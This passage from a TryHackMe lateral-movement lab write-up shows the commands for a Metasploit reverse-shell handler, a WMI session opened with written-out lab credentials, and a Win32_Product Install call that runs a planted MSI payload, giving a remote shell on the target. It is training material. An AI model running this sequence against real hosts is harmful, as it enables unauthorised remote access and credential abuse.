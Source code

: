 ![](/assets/img/Pasted image 20230205233629.png)

- Since we copied our payload to the `ADMIN$` share , it will be available at `C:\Windows\` on the server.

##### Step 3: Start a handler to receive the reverse shell from `Metasploit`

```PowerShell
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4445
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4445
```

![](/assets/img/Pasted image 20230205234334.png)

##### Step 4: Starting a `WMI` session against `THMIIS` from a `PowerShell` console: (This code is executed at `THMJMP2` machine)

```PowerShell
PS C:\> $username = 't1_corine.waters';
PS C:\> $password = 'Korine.1994';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
PS C:\> $Opt = New-CimSessionOption -Protocol DCOM
PS C:\> $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```


##### Step 5: Invoke the `install` method from the `Win32_Product` class to trigger the payload: (this is executed at the `THMJMP2` machine)

```powershell
PS C:\> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\DANGERZONE.msi"; Options = ""; AllUsers = $false}
```


**Output**:

![](/assets/img/Pasted image 20230205234651.png)

	- As you can see on the right, the reverse shell is received by Metasploit!

![](/assets/img/Pasted image 20230205234738.png)

	- This is indeed the THMIIS machine using the compromised admin credentials!

### Getting the Flag:
